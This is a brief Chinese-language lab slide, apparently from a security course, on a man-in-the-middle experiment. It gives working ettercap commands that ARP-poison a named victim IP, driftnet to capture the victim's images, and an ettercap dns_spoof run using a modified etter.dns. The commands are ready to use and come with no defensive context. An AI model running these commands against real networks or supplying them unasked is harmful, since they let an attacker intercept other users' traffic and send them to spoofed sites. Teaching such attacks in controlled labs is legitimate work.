

# 中间人攻击实验
开启ip转发

受害者ip 192.168.1.6
攻击机
ettercap -T -q -M ARP //192.168.1.6/ ///
driftnet -i eth0

Dns欺骗攻击
/etc/ettercap/etter.dns
ettercap -Tq -P dns_spoof -M arp /192.168.1.120// ///

5